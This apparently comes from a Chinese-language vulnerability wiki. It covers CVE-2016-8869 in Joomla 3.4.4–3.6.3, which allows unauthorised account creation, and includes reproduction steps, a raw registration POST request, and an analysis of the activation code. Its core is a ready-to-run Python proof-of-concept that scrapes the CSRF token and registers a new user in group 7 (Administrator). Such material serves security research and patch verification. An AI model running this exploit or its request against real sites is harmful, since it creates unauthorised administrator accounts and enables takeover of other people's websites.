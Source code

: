 （CVE-2016-8869）Joomla 3.4.4-3.6.3 未授权创建特权用户
======================================================

一、漏洞简介
------------

网站关闭注册的情况下仍可创建用户，默认状态下用户需要用邮件激活，但需要开启注册功能才能激活。

二、漏洞影响
------------

Joomla 3.4.4-3.6.3

三、复现过程
------------

-   首先在后台关闭注册功能，关闭后首页没有注册选项：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId24.png)

-   .然后通过访问index.php抓包获取cookie，通过看index.php源码获取token：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId25.png)

-   构造注册请求：

```{=html}
<!-- -->
```
    POST /index.php/component/users/?task=registration.register HTTP/1.1
    ...
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryefGhagtDbsLTW5qI
    ...
    Cookie: yourcookie

    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[name]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[username]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[password1]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[password2]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[email1]"

    attacker@my.local
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[email2]"

    attacker@my.local
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="option"

    com_users
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="task"

    user.register
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="yourtoken"

    1
    ------WebKitFormBoundaryefGhagtDbsLTW5qI--

-   发包，成功注册：

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId26.png)

### 补充

**2016-10-27 更新：**默认情况下，新注册的用户需要通过注册邮箱激活后才能使用。并且：

![4.jpeg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId28.jpg)

由于`$data['activation']`的值会被覆盖，所以我们也没有办法直接通过请求更改用户的激活状态。

**2016-11-01 更新：**

感谢三好学生和D的提示，可以使用邮箱激活的前提是网站开启了注册功能，否则不会成功激活。

我们看激活时的代码，在`components/com_users/controllers/registration.php`中第28-99行的activate函数：

    public function activate()
    {
        $user    = JFactory::getUser();
        $input   = JFactory::getApplication()->input;
        $uParams = JComponentHelper::getParams('com_users');
        ...

        // If user registration or account activation is disabled, throw a 403.
        if ($uParams->get('useractivation') == 0 || $uParams->get('allowUserRegistration') == 0)
        {
            JError::raiseError(403, JText::_('JLIB_APPLICATION_ERROR_ACCESS_FORBIDDEN'));

            return false;
        }

        ...
    }

这里可以看到仅当开启注册功能时才允许激活，否则返回403。

### poc

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId30.png)

    # coding: utf-8
    # CVE-2016-8869
    # author: Anka9080

    import re
    import requests
    import random

    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[!] Cannot find CSRF token")
            return None
        print('[*] Your token is '+match.group(1))
        return match.group(1)

    def poc(target):
        headers = {
            "Content-Type":"application/x-www-form-urlencoded"
        }
        proxies = {
            'http':'127.0.0.1:8080'
        }
        s = requests.Session()
        r = s.get(target+'index.php/component/users/?task=registration.register',proxies=proxies) # get cookie
        token = extract_token(r)
        # print r.headers
        randstr = '_'+str(random.randint(1,10000))
        # build post data
        print('[*] create user: {}'.format('admin'+randstr))
        data = {
            # User object
            'task':(None,'user.register'),
            'option':(None,'com_users'),
            'user[name]': (None,'admin'+randstr),
            'user[username]': (None,'admin'+randstr),
            'user[password1]': (None,'admin'),
            'user[password2]': (None,'admin'),
            'user[email1]': (None,'admin'+randstr +'@xx.com'),
            'user[email2]': (None,'admin'+randstr +'@xx.com'),
            'user[groups][]': (None,'7'),   #  Administrator!
            token:(None,'1')
        }
        try:
            r = s.post(target+'index.php/component/users/?task=registration.register',files=data,proxies=proxies,allow_redirects=False)
            if 'index.php?option=com_users&view=registration' in r.headers['location']:
                print('[+] {} is vul !'.format(target))
                return True
        except Exception , e:
            print('[!] err: {}'.format(str(e)))

        return False


    if __name__ == '__main__':
        poc('http://localhost/joomla/Joomla_3.6.3-Stable-Full_Package/')    

参考链接
--------

> https://paper.seebug.org/86/
